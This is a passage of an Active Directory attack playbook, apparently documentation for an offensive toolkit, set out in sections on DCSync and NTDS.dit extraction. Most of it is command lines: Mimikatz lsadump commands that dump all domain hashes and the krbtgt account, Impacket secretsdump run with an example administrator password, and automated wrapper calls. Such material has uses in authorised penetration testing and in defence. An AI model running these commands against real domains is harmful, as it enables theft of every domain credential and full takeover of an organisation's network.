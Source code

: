 **Automated:**
```bash
# No direct automation for Shadow Credentials in the current toolset
```

---

## Domain Compromise

### DCSync Attack

**Manual:**
```bash
# Using Mimikatz
mimikatz.exe
privilege::debug
lsadump::dcsync /domain:contoso.local /all
lsadump::dcsync /domain:contoso.local /user:krbtgt
exit

# Using Impacket's secretsdump
secretsdump.py contoso/administrator:Password123!@192.168.1.100
```

**Automated:**
```bash
# Using Mimikatz wrapper
./mimikatz-wrapper.py local dcsync -d contoso.local -c dc01.contoso.local

# Using Impacket toolkit
./impacket-toolkit.py secretsdump -t 192.168.1.100
./impacket-toolkit.py dcsync -t 192.168.1.100
```

### NTDS.dit Extraction

**Manual:**
```bash
# Using Impacket's secretsdump with NTDS.dit
secretsdump.py -ntds ntds.dit -system registry.save -security security.save -sam sam.save LOCAL

# Using Mimikatz
mimikatz.exe
lsadump::lsa /inject
lsadump::sam
lsadump::secrets
exit
```

**Automated:**
```bash
# Using Impacket toolkit
./impacket-toolkit.py secretsdump -t 192.168.1.100
```

---